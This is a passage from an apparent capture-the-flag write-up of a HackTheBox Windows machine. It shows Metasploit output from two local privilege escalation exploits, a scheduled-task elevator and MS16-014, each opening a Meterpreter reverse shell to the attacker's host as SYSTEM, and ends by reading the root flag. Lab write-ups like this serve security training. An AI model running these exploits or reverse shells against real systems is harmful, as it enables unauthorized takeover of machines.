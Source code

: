     [*] SCHELEVATOR
    [*] Disabling the task...
    [*] SUCCESS: The parameters of scheduled task "FnB0882rp0ZAqjr" have been changed.
    [*] SCHELEVATOR
    [*] Enabling the task...
    [*] SUCCESS: The parameters of scheduled task "FnB0882rp0ZAqjr" have been changed.
    [*] SCHELEVATOR
    [*] Executing the task...
    [*] Sending stage (206403 bytes) to 10.10.10.93
    [*] SUCCESS: Attempted to run the scheduled task "FnB0882rp0ZAqjr".
    [*] SCHELEVATOR
    [*] Deleting the task...
    [*] Meterpreter session 2 opened (10.10.14.5:443 -> 10.10.10.93:49201) at 2018-10-26 15:57:56 -0400
    [*] SUCCESS: The scheduled task "FnB0882rp0ZAqjr" was successfully deleted.
    [*] SCHELEVATOR
    
    meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM
    

While I’m here, I gave MS16-014 a run, and it worked as well:

    
    
    msf exploit(windows/local/ms16_014_wmi_recv_notif) > run
    
    [*] Started reverse TCP handler on 10.10.14.5:4444
    [*] Launching notepad to host the exploit...
    [+] Process 312 launched.
    [*] Reflectively injecting the exploit DLL into 312...
    [*] Injecting exploit into 312...
    [*] Exploit injected. Injecting payload into 312...
    [*] Payload injected. Executing exploit...
    [+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
    [*] Sending stage (206403 bytes) to 10.10.10.93
    [*] Meterpreter session 3 opened (10.10.14.5:4444 -> 10.10.10.93:49202) at 2018-10-26 15:59:54 -0400
    
    meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM
    

### root.txt

With any of these shells, I can grab root.txt:

    
    
    PS C:\users\administrator\desktop> type root.txt
    c837f7b6...
    

[](/2018/10/27/htb-bounty.html)

